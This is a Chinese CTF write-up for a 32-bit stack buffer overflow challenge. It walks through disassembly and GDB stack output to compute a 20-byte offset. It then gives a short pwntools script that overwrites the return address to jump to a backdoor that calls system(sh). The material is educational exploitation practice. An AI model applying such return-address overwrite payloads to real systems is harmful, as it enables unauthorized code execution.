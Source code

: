 ```python
.text:0804851F E8 1C FE FF FF                call    _read
.text:0804851F
.text:08048524 83 C4 10                      add     esp, 10h
.text:08048527 83 EC 0C                      sub     esp, 0Ch
.text:0804852A 8D 44 24 14                   lea     eax, [esp+28h+buf]
.text:0804852E 50                            push    eax                             ; format
.text:0804852F E8 1C FE FF FF                call    _printf
.text:0804852F
.text:08048534 83 C4 10                      add     esp, 10h
.text:08048537 B8 00 00 00 00                mov     eax, 0
.text:0804853C 83 C4 18                      add     esp, 18h#在程序准备返回到的时候，他没有将ebp的值赋给esp，即他没有进行leave指令(清空栈帧，使ebp和esp相同)，而是直接将esp加了0x18便开始返回了，也就是他没有用ebp高一位的返回地址，而是提前返回了。而这个提前返回的地址可以通过GDB看出来（计算方法就是将当前esp的地址+0x18，正如这段汇编所描述的过程）
.text:0804853F 5B                            pop     ebx
.text:08048540 C3                            retn
```

将上方esp的地址+0x18得：0xd0c0 + 0x18 = 0xd0d8，这样我们就找到了dofunc真正的ebp，继而就能找到他真正的返回地址：

```python
06:0018│     0xffffd0d8 —▸ 0xf7fa1ff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x21cd8c#4.esp+0x18到达这里，所以这里才是ebp
07:001c│     0xffffd0dc —▸ 0x8048561 (main+32) ◂— mov eax, 0#5.那么这里就是真正的返回地址
```

然后我们再算buf的栈空间大小：

```python
02:0008│     0xffffd0c8 ◂— 'aaaaaa\n'#2.我们刚刚输入的aaaa储存在这里
```

即：0xd0d8 - 0xd0c8 = 16

也就是说buf的真实大小为16个字节，那么溢出到返回地址需要16+4=20个字节垃圾数据，可以构造payload：

```python
from pwn import *
p = process('./pwn_01')
#p= remote('pwn.node.game.sycsec.com',30345)
#gdb.attach(p)
elf = ELF('./pwn_01')
context(os="linux",arch="amd64",log_level='debug')
backdoor = 0x80484b6

payload = b'a'*20 + p32(backdoor)
p.recv()
p.sendline(payload)
p.interactive()
```

总结一下这道题，有时候函数并不是一定到了ebp才开始返回，要观察esp的变化，根据esp的加减情况，得出函数何时开始返回（==有时候还未到达ebp时函数便在中途返回==），==所以我们需要重新计算写入数据的地址到真正返回地址的距离，进而得出要溢出的长度。==

backdoor:

```python
int func()
{
  system(sh);
  return 0;
}
对应汇编：
.text:080484B6                               func proc near
.text:080484B6                               ; __unwind {
.text:080484B6 53                            push    ebx
.text:080484B7 83 EC 08                      sub     esp, 8
.text:080484BA E8 B0 00 00 00                call    __x86_get_pc_thunk_ax
.text:080484BA
.text:080484BF 05 41 1B 00 00                add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:080484C4 83 EC 0C                      sub     esp, 0Ch
```